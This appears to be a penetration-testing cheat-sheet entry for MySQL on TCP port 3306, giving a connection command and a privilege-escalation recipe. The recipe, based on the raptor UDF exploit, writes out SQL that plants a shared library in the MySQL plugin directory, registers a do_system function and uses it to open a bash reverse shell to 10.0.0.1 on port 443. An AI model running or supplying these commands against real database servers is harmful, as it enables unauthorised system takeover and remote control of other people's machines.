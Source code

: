 ## TCP 3306 mysql

### Connecting to Mysql  
```mysql -u user --password db_name```

### Privilege Escalation

Mysql 4.x & 5.0 (requires valid creds) - [dynamic library for do_system() MySQL UDF-raptor_udf2.c](https://www.exploit-db.com/exploits/1518)
```mysql> create table foo(line blob);
mysql> insert into foo values(load_file(‘/tmp/exploit.so’));
mysql> select * from foo into dumpfile ‘/usr/lib/mysql/plugin/exploit.so’;
mysql> create function do_system returns integer soname ‘exploit.so’;
mysql> select do_system(‘bash -i >& /dev/tcp/10.0.0.1/443 0>&1’);
```
REF: [mysql system to root](https://recipeforroot.com/mysql-to-system-root/)
